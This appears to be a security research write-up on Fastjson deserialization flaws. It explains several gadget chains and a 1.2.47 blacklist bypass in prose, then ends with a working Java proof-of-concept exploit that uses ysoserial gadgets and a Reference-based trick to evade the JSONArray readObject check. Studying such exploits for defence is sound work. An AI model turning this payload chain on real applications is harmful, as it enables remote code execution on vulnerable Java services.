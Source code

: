 # Fastjson deserialization

## Analysis

In `Fastjson`, when `AutoType` support is enabled, the `JSON.parse()` method deserializes the class specified by `@type` key to a json string, and the `JSON.parseObject()` method deserializes the json string to the class specified by the method parameter.

When creating a class instance, it will call the `setter` and `getter` methods that meet the conditions in the class through reflection. And it is just the source of the vulnerability.

## TemplatesImpl chain

The `getOutputProperties()` method of the `TemplatesImpl` class calls the `newTransformer()`, so it's obvious. However, we need to note that the `Fastjson` does not deserialize private properties by default. Therefore, it is necessary to enable `SupportNonPublicField` support in order to utilize this chain.

## JdbcRowSetImpl chain

The `setAutoCommit()` method of the `JdbcRowSetImpl` class calls the `connect()` method of the `Connection` class. In the `connect()` method, the `InitialContext.lookup()` method is called, which means the JNDI injection. And the `lookup()` method parameter is the `dataSource` field of the `JdbcRowSetImpl` class.

## BasicDataSource chain

The `getConnection()` method of the `BasicDataSource` class calls the `createDataSource()` method and then calls the `createConnectionFactory()` method. In the `createConnectionFactory()` method, `Class.forName(driverClassName, true, driverClassLoader)` method is called to retrieve the driver class, and then the driver class is instantiated. So that the static code block in the class specified by `driverClassName` will be executed. Therefore, we can set the `driverClassLoader` to the BCEL Classloader and set the `driverClassName` to a string of malicious class bytecodes to load it through the BCEL Classloader.

### BCEL Classloader

The BCEL classloader can deserialize bytecodes into a class, which overrides the Java native `ClassLoader.loadClass()` method. In its `loadClass()` method, it first checks if this string of bytecodes starts with the `$$BCEL$$` string, and if so, subsequent bytecodes will be decoded.

## Fastjson-1.2.47

In the `fastjson-1.2.47`, it doesn't just set the whitelist and blacklist to filter the types of deserialized classes. And if the class is in the blacklist, it will lookup the corresponding class from `TypeUtils.mappings` and `deserializers`. However it can be exploited to bypass the whitelist and blacklist.

If the `@type` key is the `Class`, it will be handled through `MiscCodec.deserialze()` and the corresponding value will be the parameter of the `TypeUtils.loadClass()` to be called. In the `loadClass()` method, the value will be added into the `TypeUtils.mappings`.

Therefore, set the value to the evil class name, so that we can load the evil class to bypass the whitelist and blacklist.

## Native deserialization

Native deserialization refers to the use of Java native deserialization `ObjectInputStream.readObject()` as the source to trigger deserialization vulnerabilities.

In `Fastjson`, the `JSONArray` class inherits the Serializable interface, and has a `toString()` method. In that method, the `toJSONString()` method will be called, which in turn triggers the `getter` method of the specified class. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `JSONArray` class from the `readObject()` method of the `BadAttributeValueExpException` class.

However, starting from `Fastjson-1.2.49`, the `JSONArray` class has implemented the `readObject()` method, which checks the type of the class to be deserialized by calling the `SecureObjectInputStream.resolveClass()` method. Fortunately, due to incorrect coding, deserializing the `Reference` class can bypass the call to the `resolveClass()` method.  At the same time, when adding the same object to the `List`, `Set`, and `Map` classes, the duplicated object will be written as the `Reference` class.

### Code

```java
import com.alibaba.fastjson.JSONArray;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Exp {
    public static void main(String[] args) throws Exception {
        Object template = Gadgets.createTemplatesImpl("calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
